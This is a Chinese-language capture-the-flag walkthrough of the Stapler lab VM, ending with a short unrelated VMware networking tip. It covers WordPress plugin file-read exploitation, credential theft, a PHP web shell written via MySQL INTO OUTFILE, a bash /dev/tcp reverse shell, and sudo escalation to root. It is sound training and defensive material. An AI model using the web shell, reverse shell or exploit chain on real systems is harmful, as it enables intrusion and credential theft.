

---

## 使用 WPScan 枚举 WordPress 用户

使用 WPScan 对 WordPress 用户进行枚举：
```bash
wpscan \
--url https://192.168.56.101:12380/blogblog/ \
--disable-tls-checks \
--enumerate u \
-o wpscan-users.txt
```
参数含义：
```txt
--url                 指定需要扫描的 WordPress 网站
--disable-tls-checks  忽略靶机自签名证书导致的 TLS 错误
--enumerate u         枚举 WordPress 用户
-o                     将扫描结果保存到文件
```
扫描发现了多个 WordPress 用户，例如：
```txt
John
Elly
Peter
barry
heather
garry
harry
scott
kathy
tim
```
这些用户名可以为后续的身份验证测试和权限分析提供信息。

---

## 使用 WPScan 枚举 WordPress 插件

继续使用 WPScan 枚举网站安装的插件：
```bash
wpscan \
--url https://192.168.56.101:12380/blogblog/ \
--disable-tls-checks \
--enumerate ap \
--plugins-detection aggressive \
-o wpscan-plugins.txt
```
参数含义：
```txt
--enumerate ap                 枚举所有能够发现的插件
--plugins-detection aggressive 使用主动方式检测插件目录
```
在结果中发现了以下插件：
```txt
advanced-video-embed-embed-videos-or-playlists
akismet
shortcode-ui
two-factor
```
其中比较可疑的是：
```txt
Advanced Video Embed - embed videos or playlists
Version 1.0
```
该版本发布时间较早，因此需要进一步检查是否存在公开漏洞。

---

## 使用 SearchSploit 查找插件漏洞

使用 SearchSploit 搜索与该插件有关的公开漏洞：
```bash
searchsploit "Advanced Video Embed"
```
在搜索结果中发现：
```txt
WordPress Plugin Advanced Video 1.0
Arbitrary File Download / Unauthenticated Post Creation
Exploit ID: 39646
```
将漏洞利用脚本复制到当前目录：
```bash
searchsploit -m 39646
```
漏洞编号 39646 对应 Advanced Video Embed 1.0 的任意文件读取问题。插件的 `ave_publishPost` 功能没有正确限制 `thumb` 参数，攻击者能够让服务器读取本地文件，并把文件内容保存到 WordPress 上传目录。

---

## 修改漏洞利用脚本

查看复制出来的脚本：
```bash
nano 39646.py
```
将脚本中的 WordPress 地址修改为本次靶机地址：
```python
url = "https://192.168.56.101:12380/blogblog"
```
由于靶机使用自签名 HTTPS 证书，原脚本可能会出现证书验证错误，因此在脚本导入部分加入：
```python
import ssl
ssl._create_default_https_context = ssl._create_unverified_context
```
漏洞利用的目标文件为：
```txt
../wp-config.php
```
`wp-config.php` 是 WordPress 的核心配置文件，一般包含数据库名称、数据库用户名、数据库密码以及数据表前缀等敏感信息。
修改完成后保存文件。

---

## 利用插件读取 wp-config.php

运行漏洞利用脚本：
```bash
python2 39646.py
```
脚本调用存在漏洞的接口，使插件读取：
```txt
../wp-config.php
```
并将文件内容伪装为图片，保存到 WordPress 的上传目录中。
脚本执行后，根据页面源码或脚本输出找到生成的文件，例如：
```txt
1681586976.jpeg
```
下载该文件：
```bash
curl -ks \
https://192.168.56.101:12380/blogblog/wp-content/uploads/1681586976.jpeg \
-o leaked-wp-config.txt
```
检查文件类型：
```bash
file leaked-wp-config.txt
```
结果为：
```txt
PHP script, ASCII text
```
说明虽然服务器将其命名为 `.jpeg`，但实际内容是 PHP 配置文件。
查看文件内容：
```bash
sed -n '1,160p' leaked-wp-config.txt
```

---

## 分析 wp-config.php

在文件中发现以下数据库配置：
```php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac');
define('DB_HOST', 'localhost');
```
整理后得到：
```txt
数据库名称：wordpress
数据库用户：root
数据库密码：plbkac
数据库主机：localhost
数据表前缀：wp_
```
需要注意，这里的 `root` 是 MySQL 数据库中的管理员用户，并不等于 Linux 系统的 root 用户。
本步骤说明攻击者通过任意文件读取漏洞获得了数据库凭据，为进一步访问数据库创造了条件。

---

## 连接 MySQL 数据库

使用泄露的凭据连接目标主机的 MySQL 服务：
```bash
mysql -h 192.168.56.101 -u root -p
```
输入密码：
```txt
plbkac
```
第一次连接时出现以下错误：
```txt
ERROR 2026 (HY000): TLS/SSL error:
SSL is required, but the server does not support it
```
这是因为 Kali 中的客户端默认尝试使用 SSL，而靶机上的旧版 MySQL 服务不支持该连接方式。
使用以下命令关闭 SSL：
```bash
mysql --skip-ssl -h 192.168.56.101 -u root -p
```
再次输入：
```txt
plbkac
```
成功进入数据库。

---

## 查看数据库和 WordPress 数据表

首先查看数据库：
```sql
SHOW DATABASES;
```
结果中存在：
```txt
wordpress
```
进入 WordPress 数据库：
```sql
USE wordpress;
```
查看数据表：
```sql
SHOW TABLES;
```
发现包括：
```txt
wp_users
wp_usermeta
wp_posts
wp_options
```
其中：
```txt
wp_users
```
保存 WordPress 用户账号和密码哈希；
```txt
wp_usermeta
```
保存用户角色和权限等附加信息。

---

## 查询 WordPress 用户

执行：
```sql
SELECT ID,user_login,user_pass,user_email
FROM wp_users;
```
查询到 16 个 WordPress 用户。

继续查询各用户的权限：
```sql
SELECT user_id,meta_value
FROM wp_usermeta
WHERE meta_key='wp_capabilities';
```
发现以下用户具有管理员权限：
```txt
ID 1   John
ID 3   Peter
ID 15  Vicki
```
管理员对应的权限信息为：
```txt
a:1:{s:13:"administrator";b:1;}
```
由此确认 John、Peter 和 Vicki 是 WordPress 管理员。

---

## 修改 WordPress 管理员密码

由于当前使用的是 MySQL root 用户，因此拥有修改 WordPress 用户数据的权限。
本实验选择修改 John 用户的密码。
先查看原密码哈希：
```sql
SELECT ID,user_login,user_pass
FROM wp_users
WHERE user_login='John';
```
然后将密码修改为：
```txt
Stapler2026!
```
执行：
```sql
UPDATE wp_users
SET user_pass=MD5('Stapler2026!')
WHERE user_login='John';
```
数据库返回：
```txt
Rows matched: 1
Changed: 1
```
说明修改成功。
再次查询：
```sql
SELECT ID,user_login,user_pass
FROM wp_users
WHERE user_login='John';
```
得到新的 MD5 值：
```txt
7d21569b0af72dbc84968d42f3fe12c8
```
退出数据库：
```sql
exit;
```

---

## 登录 WordPress 管理后台

访问 WordPress 登录页面：
```txt
https://192.168.56.101:12380/blogblog/wp-login.php
```
输入：
```txt
用户名：John
密码：Stapler2026!
```
成功进入：
```txt
WordPress Dashboard
```
右上角显示：
```txt
Howdy, John Smith
```
说明当前已经获得 WordPress 管理员权限。



---

## 尝试上传 WordPress 插件

为了进一步获得服务器命令执行权限，首先尝试通过 WordPress 后台上传自定义插件。
在 Kali 中创建插件目录：
```bash
cd ~/CTF/Stapler
mkdir -p lab-shell
nano lab-shell/lab-shell.php
```
写入用于本地靶场测试的 PHP 插件代码，然后将其压缩：
```bash
zip -r lab-shell.zip lab-shell
```
检查压缩文件：
```bash
ls -lh lab-shell.zip
```
在 WordPress 后台依次进入：
```txt
Plugins
→ Add New
→ Upload Plugin
```
上传：
```txt
lab-shell.zip
```
但是 WordPress 提示需要输入 FTP 凭据：
```txt
Connection Information
```
说明 Web 服务账户对插件目录没有直接写入权限，因此无法通过后台正常安装插件。

随后检查插件编辑器，页面提示：
```txt
You need to make this file writable before you can save your changes.
```
说明现有插件文件同样不可写。
因此放弃插件上传方式，转而利用已经获得的 MySQL root 权限写入 Web 目录。

---

## 检查 MySQL 文件读写权限

重新登录数据库：
```bash
mysql --skip-ssl -h 192.168.56.101 -u root -p
```
输入密码：
```txt
plbkac
```
检查 `secure_file_priv`：
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
结果为空：
```txt
secure_file_priv |
```
说明 MySQL 没有限制 `INTO OUTFILE` 只能写入某个指定目录。
检查当前用户权限：
```sql
SHOW GRANTS FOR CURRENT_USER();
```
结果为：
```txt
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION
```
再确认当前用户：
```sql
SELECT CURRENT_USER();
```
结果为：
```txt
root@%
```
说明当前数据库账户拥有全局权限，并且可以尝试使用文件读写功能。

---

## 确认 WordPress 的服务器路径

使用 `LOAD_FILE()` 读取服务器上的 WordPress 配置文件：
```sql
SELECT LENGTH(
LOAD_FILE('/var/www/https/blogblog/wp-config.php')
) AS file_size;
```
返回：
```txt
3042
```
说明路径：
```txt
/var/www/https/blogblog/
```
确实是 WordPress 网站在靶机上的真实目录。

---

## 测试向 Web 目录写入文件

首先写入一个无害的文本文件：
```sql
SELECT 'Stapler OK'
INTO OUTFILE
'/var/www/https/blogblog/wp-content/uploads/mysql-test-20260712.txt';
```
成功后退出数据库：
```sql
exit;
```
在 Kali 中访问该文件：
```bash
curl -ks \
https://192.168.56.101:12380/blogblog/wp-content/uploads/mysql-test-20260712.txt
```
返回：
```txt
Stapler OK
```
说明 MySQL 进程能够向 WordPress 的 Web 目录写入文件，并且写入的文件可以通过网站访问。

---

## 写入 PHP 命令执行文件

重新连接 MySQL：
```bash
mysql --skip-ssl -h 192.168.56.101 -u root -p
```
写入一个 PHP 文件：
```sql
SELECT '<?php system($_GET["cmd"]); ?>'
INTO OUTFILE
'/var/www/https/blogblog/wp-content/uploads/stapler-cmd-20260712.php';
```
退出数据库：
```sql
exit;
```
通过 URL 参数执行 `id` 命令：
```bash
curl -ks \
"https://192.168.56.101:12380/blogblog/wp-content/uploads/stapler-cmd-20260712.php?cmd=id"
```
返回：
```txt
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
继续执行：
```bash
curl -ks \
"https://192.168.56.101:12380/blogblog/wp-content/uploads/stapler-cmd-20260712.php?cmd=whoami"
```
返回：
```txt
www-data
```
说明已经能够以 Web 服务账户 `www-data` 的身份在目标主机上执行系统命令。

---

## 获得反向 Shell

当前 WebShell 每次只能执行一条命令，使用起来不方便，因此将其转换为反向 Shell。
首先确认 Kali 在 Host-Only 网络中的 IP：
```bash
ip -br a
```
结果为：
```txt
eth1  192.168.56.102/24
```
在 Kali 新终端中开启监听：
```bash
nc -lvnp 4444
```
参数含义：
```txt
-l  进入监听模式
-v  显示详细连接信息
-n  不进行域名解析
-p  指定监听端口
```
在另一个终端中通过 PHP 文件触发反向连接：
```bash
curl -ksG \
--data-urlencode \
'cmd=bash -c "bash -i >& /dev/tcp/192.168.56.102/4444 0>&1"' \
'https://192.168.56.101:12380/blogblog/wp-content/uploads/stapler-cmd-20260712.php'
```
监听终端收到来自：
```txt
192.168.56.101
```
的连接。
验证当前身份：
```bash
whoami
id
hostname
pwd
```
结果为：
```txt
www-data
uid=33(www-data) gid=33(www-data)
red.initech
/var/www/https/blogblog/wp-content/uploads
```
说明已经成功获得 `www-data` 权限的反向 Shell。

---

## 升级为交互式 Shell

刚获得的 Shell 会提示：
```txt
bash: no job control in this shell
```
而且方向键、退格键、`su` 等功能可能无法正常使用，因此需要升级终端。
检查 Python：
```bash
which python python3
```
目标主机存在：
```txt
/usr/bin/python
/usr/bin/python3
```
使用 Python 创建伪终端：
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
设置环境变量：
```bash
export TERM=xterm
export SHELL=/bin/bash
```
按：
```txt
Ctrl + Z
```
暂时将 Netcat 放入后台。
在 Kali 本地执行：
```bash
stty raw -echo; fg
```
按两次回车，然后执行：
```bash
reset
```
只有在系统询问终端类型时才输入：
```txt
xterm
```
最后设置终端尺寸：
```bash
stty rows 40 columns 120
```
验证：
```bash
whoami
su --help
```
此时已经获得较为稳定的交互式终端。

---

## 枚举系统用户目录

查看 `/home` 目录：
```bash
ls -la /home
```
发现目标主机中存在大量系统用户，例如：
```txt
peter
JKanode
elly
zoe
www
```
其中 `/home/JKanode` 目录能够被当前用户读取。
查看该目录：
```bash
ls -la /home/JKanode
```
发现：
```txt
.bash_history
```
该文件权限允许其他用户读取。

---

## 读取 JKanode 的命令历史

执行：
```bash
cat /home/JKanode/.bash_history
```
发现以下命令：
```txt
sshpass -p thisimypassword ssh JKanode@localhost
sshpass -p JZQuyIN5 peter@localhost
```
由此得到两组明文凭据：
```txt
JKanode : thisimypassword
peter   : JZQuyIN5
```
产生该问题的原因是管理员在命令中直接使用 `sshpass -p` 写入密码，完整命令随后被记录到了 `.bash_history` 文件中。

---

## 切换到 JKanode 用户

执行：
```bash
su - JKanode
```
输入密码：
```txt
thisimypassword
```
验证身份：
```bash
whoami
id
pwd
```
结果为：
```txt
JKanode
uid=1013(JKanode)
gid=1013(JKanode)
/home/JKanode
```
说明已经成功从 `www-data` 横向切换到系统用户 `JKanode`。

---

## 切换到 peter 用户

继续执行：
```bash
su - peter
```
输入：
```txt
JZQuyIN5
```
首次进入 peter 的 Zsh 时，会显示 `zsh-newuser-install` 配置提示。
输入：
```txt
q
```
或者：
```txt
0
```
退出配置即可。
验证身份：
```bash
whoami
id
pwd
```
结果显示：
```txt
uid=1000(peter)
gid=1000(peter)
groups=1000(peter),27(sudo),110(lxd)...
/home/peter
```
其中最重要的是 peter 属于：
```txt
sudo
```
用户组。

---


## 检查 peter 的 sudo 权限

执行：
```bash
sudo -l
```
输入 peter 的密码：
```txt
JZQuyIN5
```
结果为：
```txt
User peter may run the following commands on red:
    (ALL : ALL) ALL
```
含义：
```txt
peter 可以以任意用户和任意用户组身份执行任意命令。
```
这属于权限配置过高，意味着 peter 可以直接获取 root 权限。

---

## 提升至 root 权限

执行：
```bash
sudo -i
```
输入 peter 的密码后，验证身份：
```bash
whoami
id
hostname
pwd
```
结果为：
```txt
root
uid=0(root) gid=0(root) groups=0(root)
red.initech
/root
```
说明已经成功获得目标主机的最高权限。

---

## 读取最终 Flag

查看 root 用户目录：
```bash
ls -la /root
```
发现：
```txt
flag.txt
```
读取文件：
```bash
cat /root/flag.txt
```
得到最终 Flag：
```txt
b6b545dc11b7a270f4bad23432190c75162c4a2b
```
至此完成 Stapler 靶机实验。



---

## 完整攻击流程

```txt
配置 Host-Only 靶场网络
        ↓
arp-scan 发现存活主机
        ↓
Nmap 扫描确认 Stapler 地址和开放端口
        ↓
Nikto 发现 robots.txt
        ↓
robots.txt 暴露 /blogblog/
        ↓
确认 /blogblog/ 为 WordPress
        ↓
WPScan 发现 Advanced Video Embed 1.0
        ↓
利用任意文件读取漏洞获取 wp-config.php
        ↓
获得 MySQL root 数据库密码
        ↓
查询 WordPress 用户及权限
        ↓
修改 John 管理员密码
        ↓
登录 WordPress 管理后台
        ↓
插件目录不可写，上传插件失败
        ↓
利用 MySQL INTO OUTFILE 写入 PHP 文件
        ↓
获得 www-data 命令执行权限
        ↓
建立反向 Shell
        ↓
读取 JKanode 的 .bash_history
        ↓
发现 JKanode 和 peter 的明文密码
        ↓
切换至 peter
        ↓
sudo -l 发现 (ALL : ALL) ALL
        ↓
sudo -i 获取 root
        ↓
读取 /root/flag.txt
```

---

## 实验结果分析

本实验中，目标主机存在多个相互关联的安全问题：

1. WordPress 使用了存在任意文件读取漏洞的旧版插件。
2. `wp-config.php` 中保存了具有远程登录权限的 MySQL root 凭据。
3. MySQL root 用户拥有全局权限和文件写入权限。
4. MySQL 可以向 Web 目录写入 PHP 文件，导致远程命令执行。
5. 用户在命令行中明文使用密码，并被记录在 `.bash_history` 中。
6. `.bash_history` 文件权限设置不当，允许其他用户读取。
7. peter 用户拥有不受限制的 sudo 权限。

这些问题单独来看未必都能直接导致主机失陷，但攻击者可以将多个漏洞和错误配置串联起来，最终从未授权访问逐步提升至 root 权限。

---

## 实验总结

本实验完成了从信息收集、Web 应用枚举、漏洞利用、数据库访问、远程命令执行、横向移动到本地权限提升的完整过程。

实验首先通过 Nmap、Nikto 和 WPScan 对目标进行信息收集，随后利用 WordPress 插件的任意文件读取漏洞获得数据库配置文件。通过泄露的数据库凭据访问 MySQL，并利用数据库权限修改 WordPress 管理员密码。

由于 WordPress 插件目录不可写，实验进一步利用 MySQL 的 `INTO OUTFILE` 功能向 Web 目录写入 PHP 文件，获得 `www-data` 权限的反向 Shell。最后通过读取用户命令历史发现明文密码，切换至拥有完整 sudo 权限的 peter 用户，并使用 `sudo -i` 成功提升至 root，读取最终 Flag。


# 随便记记
- 这里主要记录一些小且杂的问题
## 虚拟机网络排查
- 某次启动虚拟机的时候发现虚拟机没有联网，检查虚拟机设置：`NAT` 连接方式没有问题、主机网络也没有问题——可以检查是否为`**VMware NAT**服务挂掉`——在主机上`Win + R`  ->  `services.msc`；找到`VMware NAT Service`与`VMware DHCP Service`，确保二者“正在运行”